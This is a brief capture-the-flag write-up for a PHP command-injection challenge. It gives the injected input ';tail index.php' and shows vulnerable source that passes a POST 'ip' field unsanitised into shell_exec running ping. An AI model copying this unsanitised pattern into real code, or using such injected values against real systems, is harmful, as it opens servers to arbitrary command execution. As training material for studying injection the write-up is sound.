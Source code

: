 # PHP - Command Injection

### Prerequires:

- <a>Nothing</a>

-----------------

- Need anything just type `;tail index.php` and here is the flag:

`php
$flag = "XXXXXXXXXXXXXXXXX";
if(isset($_POST["ip"]) && !empty($_POST["ip"])){
        $response = shell_exec("timeout 5 bash -c 'ping -c 3 ".$_POST["ip"]."'");
        echo $response;
}
?>
`
